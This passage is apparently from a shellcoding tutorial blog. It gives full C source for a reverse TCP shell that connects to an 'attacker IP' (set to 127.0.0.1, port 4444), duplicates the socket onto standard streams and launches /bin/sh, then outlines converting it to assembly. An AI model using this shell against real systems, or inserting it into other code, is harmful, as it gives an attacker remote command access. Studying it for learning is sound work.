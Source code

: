 ### reverse TCP shell

We will take the C code that starts the reverse TCP shell from one of my [previous](/tutorial/2021/09/11/reverse-shells.html) posts.          
So our base (`shell.c`):
```cpp
/*
shell.c - reverse TCP shell
author: @cocomelonc
demo shell for linux shellcoding example
*/
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main () {

	// attacker IP address
	const char* ip = "127.0.0.1";

	// address struct
	struct sockaddr_in addr;
	addr.sin_family = AF_INET;
	addr.sin_port = htons(4444);
	inet_aton(ip, &addr.sin_addr);

	// socket syscall
	int sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// connect syscall
	connect(sockfd, (struct sockadr *)&addr, sizeof(addr));

	for (int i = 0; i < 3; i++) {
		// dup2(sockftd, 0) - stdin
		// dup2(sockfd, 1) - stdout
		// dup2(sockfd, 2) - stderr
		dup2(sockfd, i);
	}

	// execve syscall
	execve("/bin/sh", NULL, NULL);

	return 0;
}
```

### assembly preparation

As shown in the C source code, you need to translate the following calls into Assembly language:           
 - create a socket.             
 - connect to a specified IP and port.          
 - then redirect stdin, stdout, stderr via `dup2`.      
 - launch the shell with `execve`.           
